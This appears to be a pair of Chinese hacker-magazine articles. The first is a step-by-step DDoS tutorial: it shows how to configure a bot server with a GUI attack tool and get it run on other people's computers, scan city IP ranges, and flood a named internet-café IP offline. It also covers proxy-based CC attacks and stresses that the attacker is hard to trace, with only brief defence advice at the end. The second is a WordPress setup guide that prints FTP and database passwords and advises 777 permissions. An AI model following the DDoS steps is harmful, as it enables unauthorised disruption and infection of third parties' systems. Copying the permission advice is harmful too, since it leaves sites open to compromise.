自春节长假起，许多叉子就发现黑客X档案的官方网站打不开了，于是纷纷在QQ群里问我是怎么回事。其实这是因为一直有人在对X的官方网站进行DOS攻击，也就是拒绝服务攻击，而致使网站无法正常访问。那么这种攻击方法操作起来是不是很难呢，是不是很难学呢？

DOS属于一种无赖的攻击方式，但同时也是目前比较常见的一种攻击方式。这种攻击方法，一是成本小，在国内的黑客圈内使用较少的钱就可以买到大量的肉鸡用来进行DDOS攻击（分布式拒绝服务攻击），甚至于不使用肉鸡，只利用工具本身就可以进行攻击；二是使用起来非常简单，许多刚接触网络的小菜，在很短的时间内就可以掌握这种攻击方法。

其实不然，这种攻击方法并没有大家想象中的那么神秘和那么难，恰恰相反，它根本不需要攻击者拥有多么高深的网络技术，从网上下载相应的工具，就可以对目标网站进行这种攻击……

有较强的恶劣性、难以侦缉性和控制性。

### 一、攻击前的导航——常识了解

说了这么多，那到底什么是DOS，什么又是DDOS呢？DOS是英文Denial of Service的简称，即为拒绝服务。造成DOS的攻击行为就称为DOS攻击，其目的是使计算机或网络无法提供正常的服务。最常见的DOS攻击有计算机网络带宽攻击和连通性攻击。带宽攻击指以极大的通信量冲击网络，使得所有可用网络资源都被消耗殆尽，最后导致合法的用户请求无法通过。连通性攻击指用大量的连接请求冲击计算机，使得所有可用的操作系统资源都被消耗殆尽，最终计算机无法再处理合法用户的请求。而分布式拒绝服务（DDOS：Distributed Denial of Service）攻击是指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DOS攻击，从而成倍地提高拒绝服务攻击的威力。

通常，攻击者使用一个偷窃的账号将DDOS主控程序安装在一个计算机上，在一个设定的时间主控程序将会与大量的代理程序进行通信。代理程序已经被安装在了Internet上的许多计算机上，代理程序收到指令后就会对特定目标网站发动攻击。利用客户/服务器技术，主控程序能在几秒钟内激活成千上万次代理程序的运行。

为了有助于大家的理解，下面是我从网上找到的一个关于DDOS攻击的示意图，如图1。从图中我们可以了解到DDOS分为3个步骤，一是“黑客电脑”，也就是控制端，它指的就是发动这次蓄意攻击的背后操纵人，是整个攻击行动的“首脑”；第二个是“被控制端”，也就是傀儡肉鸡，是攻击者经过大量收集所得的用于攻击的电脑；第三个是“被攻击的服务器”，也就是攻击者要攻击的真正目标了。


拒绝服务攻击虽然不能入侵目标主机和对主机上的文件或数据进行破坏，但是同样会对目标网站造成极大的伤害。如果某个购物网站遭到了这种攻击，那么该网站将失去对外界服务的能力。简单地说，DDOS就是在一定时间内，彻底使被攻击的网站丧失正常的服务功能，用超出被攻击目标处理能力的海量数据包来消耗对方的可用系统资源、带宽资源，最后致使网站瘫痪。

包裹袋中，当全部商品放入后，那么结果可想而知，包装袋一定会失去它的服务功能，而且被撑破。当网站遭到DDOS攻击时，我们就会发现与目标站点的连接速度非常非常慢，甚至于根本就打不开网站，会出现如图2和图3所示的页面。


我们也可以使用ping命令来间接查看服务器是否被DDOS了。DDOS攻击的表现形式主要有两种，一种为流量攻击，主要是针对网络带宽方面的攻击，也就是使被攻击主机造成网络阻塞，合法的网络包被虚假的包所淹没，从而无法正常地到达主机；第二种就是消耗资源的攻击，主要针对主机本身进行攻击，也就是通过大量攻击包来导致主机的内存被耗尽或CPU被内核及应用程序占充而造成无法提供网络服务。当我们在CMD下简单地使用“ping 网站域名”而发现丢包的话，那么基本上就可以断定，该网站遭到DDOS攻击了，如图4。


## 二、工具显神威——一起来DDOS

了吧，理论+实践=成功，接下来我们就实践一下它的威力吧。本文我使用“雪花DDOS攻击器”来给大家进行示范，之所以选择这款DDOS软件，是因为它有以下的特点：支持常规主机攻击，比如TCP多连接攻击、UDP洪水攻击、ICMP、IGMP、SYN等攻击，服务端可以加壳保护，可以注入到任意的进程中，支持网站攻击、动态网站攻击、循环CC攻击、变量参数攻击等一系列非常有效的网站攻击方式。

软件分为控制端与服务端，下面我们来看看它的使用方法。解压软件包后可以看到3个相关的文件，其中“xh.ini”是配置文件，“服务端生成器”是用来配置服务端的，而“雪花DDOS攻击器”是我们的控制端，如图5。


首先双击运行“雪花DDOS攻击器体验版”，它的界面如图6所示。我们先来配置端口，点击软件工具栏中的第一个选项“端口设置”，程序默认的端口是1800，我们也可以任意地在1—65535这些端口间选择更换，填写完端口后，我们只要点击“应用”就可以了。


接下来我们双击运行“服务端生成器”来配置一个服务端文件。首先我们需要去“www.ip138.com”来查看自己的IP地址，然后在配置文件的“域名”栏填写自己的IP地址，在“端口”栏中填写相应的上线端口。如果我们在前边的设置中没有更改默认的1800端口，那么这里填写1800即可；如果更改了，就填写相应更改的端口，然后点击“生成服务端”就行了，如图7。

我们把生成的服务端程序上传到别人的电脑上运行。需要提醒大家的是，不要在自己的电脑上进行测试，以免给自己造成不必要的麻烦。当别人运行了我们配置的服务端程序后，我们就可以看到“上线信息”中有主机上线了。在软件的下方，我们可以看到“全选在线主机”、“反选在线主机”、“全选SYN主机”、“全选UDP主机”等多个选项，大家可以根据实际情况来选择。我们可以批量进行攻击，同时也可以批量进行卸载。

我们再切换到“攻击设置”，攻击一般的网站我们只需要选择“无限CC”这个选项即可。这里需要注意的是，并不是攻击的线程越大攻击效果就越好。这款软件可以很完美地跨越软件防火墙，而且攻击的时候我们最好选择动态页面的链接来进行攻击，这样效果会更好些，线程基本保持默认就可以。如果我们想要攻击服务器那该怎么做呢？我们来到攻击模式下，选择UDP+ICMP这个模式。这个模式通俗来说，就是无敌模式，也就是对目标服务器发送大量废弃的数据包，导致其网络阻塞等。经过测试，性能良好的服务器在几秒钟之内就会拒绝服务。


DDOS除了可以攻击网站外，还可以用来攻击网吧等。众所周知，网吧老板最怕的就是网吧的网速问题了，下面我就教大家如何使用这款DDOS工具来攻击网吧，攻击目的就是让网吧内所有上网的程序（QQ、网游等），只要连接上互联网的，全部都掉线。首先我们需要知道被攻击网吧的IP地址，可以使用“纯真IP数据库”来搜索。双击打开纯真IP数据库，把功能切换至“地址=>IP段”这个选项，然后点击扫描。我扫描的是“武汉”这个地方的IP段，大家可以很清楚地看到结果，如图8。这里只是搜索了一个城市，就搜索出了4117个记录，如果我们换成省份来搜索的话，那结果就可想而知了。


随意选择一个网吧的IP地址，然后依次点击“开始”——“运行”，在“运行”栏中输入“ping IP地址 -t”，也可以直接打开cmd命令提示符，在命令窗口下输入“ping IP地址”，就可以检测出这个IP是否存活了。我选择的是58.48.140.116这个IP地址，于是就在cmd下输入“ping 58.48.140.116”，如果看到如图9所示的界面，那么我们就可以进行下一步了（有时ping对方IP地址不通，也有可能是对方禁ping的原因）。


图9

我们返回雪花DDOS攻击器，在目标处填写上想要攻击的IP地址；端口选择默认的80就可以，然后选择UDP+ICMP模式，因为这个模式的攻击效果比较好；无论对方的IP是否禁止了ping，它都会有很大的效果。然后我们进行攻击，很快地，我们就可以看到，对方的主机已经超时掉线了，如图10。

对于这类DDOS攻击，我们都知道，它是需要大量的肉鸡才可以进行的，所以真正的操控者是相对安全的，无论是报警还是想要查到真正的攻击源头都是很难的。从上面我们也可以看到DDOS的危害，所以无论是从公德角度还是从黑客的职业道德观，我都要提醒大家，我们只是为了学习技术，而不能使用学来的技术来搞破坏。其实现在为了大家使用方便，许多远程控制软件也都添加了压力测试的功能，比如我们在前几期杂志中介绍的“第三只眼”远程控制软件，它的一个“华盟”专用版本就支持，如图11、图12。


图10


图11

“什么？没有肉鸡协同样可以对网站实行攻击吗？”或许，大家在听到这番话的时候会感觉到难以置信，但是事实告诉我们，这确实是可以的，所以即使没有肉鸡的朋友也不用着急，还是听我慢慢道来吧！这里需要为大家引进一个新的名词，就是“CC攻击”，它的原理与DDOS类似。要做到这些，我们首先需要有足够量的代理服务器。关于代理服务器，大家可以到代理中国（www.proxycn.com）、代理服务器网（www.cnproxy.com）等网站去寻找。


图12


图13

当然我们论坛的“资源发布区”每天也都会更新相应的代理。其实寻找代理，我们也可以使用网上免费的代理公布器，打开“亚伟代理”，点击操作面板中的“搜索代理”，等到代理搜索完毕后，我们再点击“验证全部代理”，如图13。我只是搜索了不到一分钟就开始验证了，大家可以看到如图14所示的验证结果，存活率还是很高的。理论上可以说，IP数量越大那么我们要达到的效果就越明显，所以大家可以多搜索一会儿。


图14

等这些工作全部完成后，我们打开“攻击器—VM技术工作室专用”，其软件界面如图15所示，将刚才存活的IP全部从“亚伟代理”中导出至文本文件中，然后再导入到这个软件中，如图16。接着我们将“攻击速度”和“攻击线程”根据自己电脑的具体配置来调整一下，“攻击选项”也可以根据自己需要来自由选择，一切准备完毕后，我们就可以开始CC之旅了。

### 三、知己知彼——简单来防御

如上文介绍所说，DDOS攻击带来的影响是相当大的，DDOS只能减轻、来防御，而无法彻底消除。


图15


图16

上次讲过，防止噪声的传播，可以根据三方面来阻止，它们分别是“声源”、“传播途径”、“耳前”（实在记不清楚了，都过去一年了）o(∩_∩)o，那么下面我们也从这三个方面来简单介绍一下防止DDOS攻击的策略。

#### 1、定时查毒（传播根源）

要做到DDOS的防御，光有一个人是不行的，他需要各个团体和使用者共同的协作。每天连接网络的计算机都要做到定时查毒，随时修补自己电脑的系统漏洞，确保计算机使用的是最新的系统，将服务器上无用的、过期的文件进行及时删除，以防止被黑客利用，保证每个人在最大程度上不成为黑客的帮凶。

#### 2、安装必要设施（传播途径）

安装防火墙、路由器等负载均衡设备，因为首先遭到攻击的很可能会是它们。专业抗DDoS防火墙采用内核提前过滤、反向探测、指纹识别等技术来提前过滤非法数据包，可以做到智能抵御用户的DoS攻击，但也不能100%阻止。采用值得信赖的网络设备（如交换机等），并保证外部设备不成为短板，同时预留足够带宽作为后盾。

#### 3、中招以后（耳前和进耳）

当我们发现网站已经惨遭DDOS时，较好的办法是将域名改为127.0.0.1（黑吃黑），将IP指向本地；也可以把域名指向“政府机构”等。更可行的是做分析和调查，进入系统日志查看异常，在路由器中屏蔽对方IP段。另一个常见措施是更改自己的端口（DDOS默认攻击端口常见为80）。

### 四、简单小结

从根本上来说，DDOS只能得到减轻，而不能彻底根治。最好的办法是根据平时的扫描和维护来对抗，即使有较强硬件也只是起到防御作用。文章作者强调本文仅作交流分享，如有不全面之处欢迎指正。

> （文章中涉及到的雪花DDOS攻击器体验版、纯真IP数据库查询程序、第三只眼远程控制华盟专版、亚伟代理1.6、CC攻击器，已经收录在了光盘中）


## 轻松拥有自己的博客——WordPress博客全攻略

提起博客，相信小菜们都会感到陌生吧，而且许多小菜也都拥有自己的博客。那么大家使用的都是什么类型的博客呢？是网易的、搜狐的，还是新浪的？还是最近火热的腾讯微博？虽然这些博客都很不错，使用的人也很多，但它们始终由别人运营和提供，自定义性不强、限制较多。那么就让我们摆脱这些限制，建立一个真正属于自己的博客吧，要实现这个目标其实并不难！

## 一、WordPress简介

WordPress是一套基于PHP+MySQL的博客程序，在世界范围内其使用都非常广泛，也得到了大家的一致好评。目前其最新版本为3.0。基于WordPress，一些热心的使用者也开发出了很多插件以及好看的主题，可以说目前的WordPress已经超出了博客的领域，使用其插件就可以制作出一套完整的网站来，事实上我们完全可以把它当作一个内容管理系统（CMS）来使用。WordPress被认为是Michel Valdrighi所开发的网络平台b2/cafelog的正式继承者，而“WordPress”这个名字则是出自Christine Selleck的主意，她是主要开发者Matt Mullenweg的朋友。

## 二、PHP + MySQL空间的申请

如何申请到一个好的免费空间一直以来都是很让人头痛的问题。对于小菜们来说经常碰到的情况就是：要么就是收费的买不起，要么就是免费的不稳定。虽然免费的PHP空间在国内也有很多，但绝大多数都是骗人的，顶多给你免费用个几天，然后数据就会被删除了，非常不负责任，因此我们最好是把目标转向国外的免费空间。我就找到一个德国的免费空间“Host1Free”，在经过一段时间的使用后，感觉还比较稳定，来看看这个空间的具体情况吧：Host1Free是来自于德国的虚拟主机服务商Host1Plus旗下的网站，提供了10G容量的免费空间，每月150G流量的限制，最多可以绑定5个域名以建立5个独立网站，支持PHP5，最多可以创建2个MySQL数据库，可自定义.htaccess文件，采用了DirectAdmin主机管理面板（简称DA），支持FTP、Web方式上传管理文件，还提供支持POP3、IMAP4的免费邮箱，没有广告。

（右栏说明）在页面中填写域名后继续往下看，可以看到“Your e-mail (account details will be sent there)”，在这里填写你的邮箱地址。下面的“Password (at least 6 symbols)”以及“Retype password”分别输入密码与确认密码；“Enter the symbols you see in the image”填写验证码，全部填写完毕后勾选“I agree to Terms and Conditions”，详细填写情况如图2所示。


好了，其他的就不多说了，我们直接通过浏览器打开注册地址“http://www.host1free.com/sign-up/”，在页面中可以看到“I want to host my own domain”（意思就是使用我们自己已有的域名，可以直接把域名填写在下方）以及“I will choose your free subdomain”（意思就是如果我们没有域名的话，就可以在此申请你想要的免费二级域名），比如我们这里就填写“hackerxfiles”。


当确认填写无误后我们就可以点击最下面的“CREATE ACCOUNT”按钮来进行注册了，稍等一会儿，如果网页显示注册成功信息，则说明空间和账户已经创建完成。

如图3这样，就表示我们已经注册成功了，页面上并给出了空间的详细信息，包括了空间的域名、控制面板的登录地址、注册的用户名和密码、FTP 的地址、账号和密码等，这些信息可是非常重要的哟！

当然，在注册成功后系统也会自动发送一封关于空间信息的邮件给我们。如果一时记不住那些密码的话，打开邮箱查看一下就行了，不懂英文的朋友还可以先使用 Google 翻译一下。其实大家只需要重点记下几个重要的内容就行了（比如 FTP 主机地址、账号和密码以及控制面板地址等）。接下来我们点击下方的“GO TO MY PANEL”按钮进入你的控制面板，进入以后我们还可以在下方的“Change Your Details”处重新设置你的密码。

现在空间和域名都已经有了，那么还差什么呢？自然就是 MySQL 数据库了。在空间中建立 MySQL 数据库也很简单，我们点击控制面板中的“Website control”（网站管理）来打开网站管理面板。点击后会要求我们输入“Username”以及“Password”，输入刚才得到的 FTP 用户名“hacker2”以及提供给我们的 FTP 密码“TUJOiM”，然后点击“LOGIN”按钮就可以登录管理页面了，如图5。


图5


图4


图6

成功登录管理面板后，可以点击“Your Account”中的“MySQL Management”进入到 MySQL 管理页面，进入以后点击左上角的“Create new Database”来创建一个新的数据库，如图6。

进入到创建数据库页面后，我们可以看到有四个需要填写的地方。“Database Name:”就是填入你的数据库名称；“Database Username:”就是你的数据库用户名。注意数据库名称和数据库用户名可不是一个意思，别搞错了。下面的“Username Password:”以及“Confirm Password:”就是输入数据库的密码以及确认密码。我填写的情况如图7所示。填写完毕后点击“Create”按钮，就可以完成数据库的创建了。

图8所示的页面，就说明我们的数据库已经创建成功了。


图7


图8

## 三、WordPress博客的安装以及汉化

空间 OK 了，域名 OK 了，数据库也 OK 了，那么接下来就是正式安装 WordPress 博客了。首先我们从网上下载 WordPress 博客程序，目前其最新版本为 3.0，但是由于新版本的中文语言包尚未发布，所以我们仍然以 WordPress 2.9.2 版本为例来进行详细介绍。

我们首先从“http://www.wopus.org/”（WordPress 中文平台）下载安装程序以及汉化语言包。下载完成后分别解压主程序“wordpress-2.9.2.zip”以及语言包“wordpress.2.9.CNlanguages.zip”，打开解压后的 WordPress 主程序文件夹，以记事本方式打开其中的“wp-config-sample.php”文件，找到代码 `define('WPLANG','');`，将其更改为 `define('WPLANG','zh_CN');`，注意“zh_CN”的大小写。然后再把代码 `define('DB_CHARSET','utf8');` 更改为 `define('DB_CHARSET','');`。以上更改是为了配置中文语言包。

下面我们再来配置数据库，同样是以记事本方式打开 WordPress 主程序文件夹下的“wp-config-sample.php”文件，并找到以下代码：

```php
define('DB_NAME', 'putyourdbnamehere');

/** MySQL database username */
define('DB_USER', 'usernamehere');

/** MySQL database password */
define('DB_PASSWORD', 'yourpasswordhere');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

把“putyourdbnamehere”更改成我们的数据库名称，注意不是数据库用户名。我们刚才建立的数据库名称是“hacker2_mdb”，所以这里就修改为“hacker2_mdb”；“usernamehere”这里才是输入我们的数据库用户名“hacker2_hacker”；而在“yourpasswordhere”这里输入我们的数据库用户名所对应的密码“hackerxfiles”。至于“localhost”是输入我们的主机名，这个空间的主机名就是默认的“localhost”，所以不需要重新修改。以上几个地方全部修改好后保存文件，然后再把原来的文件名“wp-config-sample.php”更名为“wp-config.php”就好了。最后我们把下载回来的语言包文件解压，找到里面的“languages”文件夹，把“languages”文件夹复制到 WordPress 主程序下的“wp-content”文件夹里，现在我们的配置工作就算全部完成了。

下面就是把我们的博客程序上传到我们申请的空间中了。打开任意一款 FTP 上传软件，比如著名的 FlashFXP 以及多线程上传的“8uftp”等都是不错的选择。为了速度更快，我这次就使用了多线程上传方式的“8uftp”。打开程序后在上方填入我们的 FTP 主机以及 FTP 账号和密码信息，这些信息可以到我们注册时所用的邮箱中查看得到，然后点击“连接”按钮就可以进行连接了。连接成功后进入到 FTP 目录中的“public_html”文件夹内，先把“public_html”内的所有文件删除掉，如图9。

删除以后，在左边的本地文件树形框中进入到刚才的“WordPress”主程序文件夹内，按住键盘上的“Ctrl+A”把文件全部选中后再点击鼠标右键选择“上传”，如图10。现在程序就开始自动上传了，如图11。


图9

上传完毕后，就可以来设置我们的博客了。通过浏览器访问我们的二级域名“hackerxfiles.whostas.com”，第一次访问时会要求我们输入博客的标题以及你的电子邮箱。因为界面已经是全中文化了，相信大家都能看得懂。填写好后点击“安装 WordPress”按钮就可以完成安装了，如图12。完成后会给出我们后台管理账号以及随机的管理密码，这个一定要记住哟，如图13。


图10


图13


图11


图12


图14

接下来我们就可以点击“登录”按钮来进入管理后台了，这里就不多做介绍了。现在来访问你的二级域名，博客的默认主页就出来了，如图14所示。看到这个界面可能有些小菜就要抱怨了，怎么这个博客这么简陋啊！WordPress 默认的界面确实非常简陋，那么我们怎么让它变得更美观以及人性化呢？下面我就为大家介绍 WordPress 的主题安装以及插件安装。

## 四、WordPress之画龙点睛

虽然我们的博客现在已经安装好了，但是它的功能还不是那么全面，界面也不是多么美观，就像是刚出生还没有穿衣服的小孩似的。我们来强化一下吧！

### 1. 安装漂亮美观的主题

至于 WordPress 的主题，可以说是非常多，国内的国外的，漂亮的主题数不胜数。我们在百度或 Google 中随便一搜索就可以找到很多，这里就不多做介绍了，大家主要来看一下主题的安装。

这里我就选择了一款名为“ZEXEE”的国外主题，对于其他主题的安装方法也是相似的。从网上下载了“ZEXEE”主题后先进行解压，将解压后的文件夹“zexee”使用 FTP 上传到 `wp-content/themes/` 目录下，然后登录到博客的管理后台，选择“外观”→“主题”，系统就会自动列出我们上传的主题文件，直接点击下面的“启用”就行了，如图15。


图15

图16

主题启用后，我们选择“外观”→“编辑器”，还可以对主题的 HTML 文件以及 CSS 文件进行手工修改，比如可以修改一些你不喜欢的文字等。这时再去看看你的博客主页，是不是已经焕然一新，从灰姑娘变成公主了！

### 2. 插件很重要，学会安装简单的插件

对于 WordPress 插件的安装，并没有一个总体的步骤。因为 WordPress 的插件太多了，因此安装方法也是多种多样，每个插件都有各自的安装方法，所以不能笼统地来介绍。但是不管什么插件也都有必要的几个步骤，就是上传—启用—设置。这里我们就以一款 WordPress 的 HTML 压缩加速插件为例来进行介绍，因为该插件并没有多余的设置步骤，只使用普通的流程安装后启动即可，相对比较简单。

该插件的下载地址为“http://plugins.wopus.org/content/editpost/237.html”。下载完成后先进行解压，把解压出来的“wp-html-compression”文件夹使用 FTP 上传到 `wp-content/plugins/` 目录下，然后进入博客管理后台，选择“插件”→“WP-HTML-Compression”→“启用”就行了，如图16。

这个插件的主要作用就是用于网页压缩，可以使你的网页访问速度更快。当然还有更好的彻底静态化插件“WP Super Cache”，不过它的安装过程有些复杂，建议自行上网学习，多练习一下就熟练了。

### 3. 免费的域名

对于空间的域名，我认为没有必要去计较好坏，毕竟大家……也是学习而已。如果你要做得正规点，那还是建议购买收费的空间或者服务器。倘若只是为了练习那就不用了。其实免费的域名也有一些很不错的，比如今年第 4 期杂志中所介绍的免费 eu.tv 域名就非常不错，还有 co.nr 等也是非常不错的免费域名，申请的方法也都非常简单。

### 五、容易产生的问题

- 1. 不能编辑主题文件（htm、css）
- 2. 部分主题修改后主页不能访问

1）不能编辑主题文件（htm、css）：我们可以先进入 FTP，设置 `wp-content`、`wp-content/themes`、`wp-content/themes/（你的主题文件夹）`以及相关 HTML/CSS 文件目录权限为 777。设置方法是右键点击文件或文件夹，选择“属性”→“777”。

2）部分主题修改后主页不能访问：有的主题作者为了防止你修改他的页脚版权信息，设置了 base64 加密，如果以任何方式修改了就会出现版权警告。建议尊重主题作者版权。

### 六、小结

本文主要为大家详细介绍了一种 PHP 博客的安装以及使用。当然还有很多 ASP 博客，不能仅限于某一种。通过这次对于 PHP 博客的安装，我们可以发现其实安装 phpwind 以及 discuz 也不是太难，方法大同小异，主要是熟练。最后再说一下，毕竟是免费的空间，学习一下就好，千万别把重要的数据存放在上面哦！

（文章中涉及到的 wordpress-2.9.2、wordpress2.9.CNlanguages 以及 wp-html-compression，已经收录在了光盘中）